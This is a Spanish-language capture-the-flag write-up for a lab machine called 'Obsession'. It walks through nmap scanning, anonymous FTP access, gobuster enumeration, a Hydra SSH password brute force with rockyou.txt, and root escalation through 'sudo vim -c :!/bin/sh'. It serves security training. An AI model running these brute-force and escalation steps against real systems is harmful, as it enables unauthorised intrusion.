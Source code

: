 ```yaml
---
description: '✍️ Autor: Juan🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 25/06/2024'
---
```


# Obsession

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (1).png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

Observamos que el puerto **21** tiene dos archivos que podrían contener información relevante, y que la conexión es permitida con el usuario **anonymous** y sin contraseña, por lo que nos conectaremos a través de **FTP**. Esto lo sabemos ya que la versión es vulnerable a esas credenciales.

![](<../../.gitbook/assets/3 (1).png>)

Tras entrar, debemos listar y descargar los archivos que se mostraban anteriormente a través de los comandos:

```bash
ls
get chat-gonza.txt
get pendientes.txt
```

![](<../../.gitbook/assets/4 (1).png>)

Ahora mostramos el contenido de esos archivos con:

```bash
cat chat-gonza.txt
cat pendientes.txt
```

![](<../../.gitbook/assets/5 (1).png>)

Con esto, descubrimos información de algunos de los usuarios e información de los permisos, lo que nos proporciona datos relevantes.

Seguimos indagando más sobre los puertos y ahora investigamos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web nos muestre un blog de entrenamiento personal.

![](<../../.gitbook/assets/6 (1).png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos dos directorios que son `/backup/` y `/important/`, por lo que los revisamos y su contenido a continuación.

![](<../../.gitbook/assets/8 (1).png>)

![](<../../.gitbook/assets/9 (1).png>)

Con esto, descubrimos que el usuario es **russoski**. Continuamos con el siguiente directorio.

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Parece ser que esto último no tiene nada relevante, por lo que nos centramos en lo que hemos descubierto anteriormente, que es el usuario.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh russoski@172.17.0.2
```

![](../../.gitbook/assets/13.png)

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/14.png)

Observamos que podemos escalar privilegios con **vim** usando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ponemos:

```bash
id
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
